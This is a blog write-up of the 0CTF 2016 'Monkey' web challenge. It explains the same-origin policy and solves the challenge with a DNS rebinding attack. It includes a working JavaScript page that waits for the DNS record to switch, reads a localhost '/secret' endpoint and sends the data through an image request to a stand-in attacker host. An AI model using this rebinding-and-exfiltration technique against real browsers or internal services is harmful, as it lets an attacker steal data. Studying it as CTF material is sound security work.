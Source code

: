 ```yaml
---
layout: post
title: "CTF WriteUp: 0CTF/Monkey"
category: CTF
comments: true
---
```


CTF WriteUp: 0CTF 2016 / Monkey / web / 4 points

We are presented with a simple page that allows us to submit a URL which some monkey will browse for two minutes. In addition, the page says that we can find the flag at `127.0.0.1:8080/secret`. The challenge page also asks what the same-origin policy is. Let's start by answering that question.

 <!-- more -->

## Intro

The [same-origin policy](https://en.wikipedia.org/wiki/Same-origin_policy) regulates that scripts shall only be allowed to access or request data from the origin from which they were loaded. An origin is defined by the URI scheme, the hostname and port.

As such, if we load our page from `http://foo.dollberg.xyz:8080` we are not allowed to do an XHR request to `http://127.0.0.1:8080` because the hostname is different.

The task of the challenge is now to circumvent this policy. While there exist several possibilities to circumvent the same-origin policy, such as explicitly allowing it using [CORS](https://en.wikipedia.org/wiki/Cross-origin_resource_sharing), most of them require active help from the target domain.

My initial idea was to load the page via an image and then extract the data via html canvas elements. Second, was to load the flag page in an iframe and try to access it via some hacks of the `document.domain` property. However, both of those failed.

At that point, two things came to my mind. First, I got suspicious of the hint which mentioned that the monkey will surf for two minutes on the page. Second, I remembered attacks on smart home devices in local home networks that used DNS to circumvent the same-origin policy (can't find the link anymore, unfortunately). At this point, I was totally sure that this must be the way to solve it.

Specifically, the attack works like this. The victim browses a page that you control (e.g.: `foo.dollberg.xyz`, the page which we submit). This page contains some javascript that accesses the endpoint of the flag (`/secret`) after a certain amount time (110 seconds). If the DNS entry of `foo.dollberg.xyz` has a very short TTL (60 seconds), the delayed request has to do an additional DNS request. However, by changing the DNS record in the meantime, the domain will resolve to the victim page (`127.0.0.1`).

There is only one last hurdle before we can make this happen. I use Cloudflare as a DNS provider for this page/domain. Unfortunately, Cloudflare only supports TTLs of two minutes. As a consequence, we first have to submit a different dummy link and wait some time so that the DNS record gets cached. The final procedure looks like this.

## Let's Pwn

We create a DNS record for `foo.dollberg.xyz` with the IP of our server (e.g.: `1.2.3.4`):

![My helpful screenshot](/resources/0ops16_monkey_realip.png)


After that, we submit the dummy URL `http://foo.dollberg.xyz:8080/dummy`. This causes the DNS query and the caching of the real IP. Then, we change the DNS record to point to localhost.

![My helpful screenshot](/resources/0ops16_monkey_localhost.png)

Now, we wait for a small amount of time, e.g.: 30 seconds. Then we submit a second link that contains our webpage `http://foo.dollberg.xyz:8080/pwn.html`:

    <html>
    <head>
    <script src="jquery.min.js"></script> <!-- can't access maxcdn in China -->
    <script type="text/javascript">

    function pwn() {
        $.get('/secret', function(data) {
            var image = new Image();
            image.src='http://someotherdomainorip:8080?data='+data;
        });
    }

    function foo() {
        setTimeout(pwn, 110 * 1000);
    }

    </script>
    </head>
    <body onload="foo()">
    </body>
    </html>

As the DNS record for `foo.dollberg.xyz` is still cached it is loaded from the correct server and the page is being browsed for another 120 seconds. After 110 seconds the timeout fires. As the TTL has expired an additional DNS request is being made which resolves to `127.0.0.1`. As a result, the request successfully accesses the `/secret` page of `127.0.0.1:8080`. Finally, we use an image tag to send the flag/data to another IP/domain of ours:

    0ctf{monkey_likes_banananananananaaaa}

For a change, this was a really cool web challenge and not the usual PHP crap.

